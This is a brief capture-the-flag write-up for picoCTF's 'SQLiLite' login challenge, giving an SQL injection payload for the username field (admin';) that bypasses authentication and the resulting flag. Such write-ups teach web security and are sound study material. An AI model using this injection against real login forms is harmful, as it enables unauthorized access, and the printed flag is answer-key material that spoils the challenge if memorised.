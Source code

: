 <h1>SQLiLite</h1>
<h3>Description</h3>
<label>Can you login to this website? Try to login <a href='http://saturn.picoctf.net:49178/'>here</a>.</label>
<h3>Solution</h3>
<label>Payload</label>
<pre>
Username : admin';
Password : bla
</pre>
<label>Check tag hidden view source page</label>
<h3>Flag</h3>
<pre>
picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}
</pre>
